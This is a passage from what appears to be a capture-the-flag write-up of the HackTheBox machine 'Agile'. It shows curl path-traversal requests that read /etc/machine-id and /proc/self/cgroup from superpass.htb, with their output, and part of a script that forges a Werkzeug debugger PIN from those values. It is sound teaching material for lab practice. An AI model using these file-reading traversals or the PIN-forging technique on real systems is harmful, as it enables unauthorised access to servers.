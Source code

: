 

    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../etc/machine-id -s --path-as-is -b $cookie
    ed5b159560f54721827644bc9b220d00



I'll also need the first line of `/proc/self/cgroup`, from the last "/"
to the end:



    oxdf@hacky$ curl http://superpass.htb/download?fn=../../../../proc/self/cgroup -s --path-as-is -b $cookie
    0::/system.slice/superpass.service



I only need the "superpass.service" part.

Putting that all together updates the script to:



    private_bits = [
        '345052367029',# str(uuid.getnode()),  /sys/class/net/ens33/address
        'ed5b159560f54721827644bc9b220d00superpass.service'# get_machine_id(), /etc/machine-id
    ]



#### Hash Algorithm

I'll run this and it outputs a pin:



    oxdf@hacky$ python agile.py 
    276-150-242



But it doesn't work:

![](/img/image-20230728170845041.png)

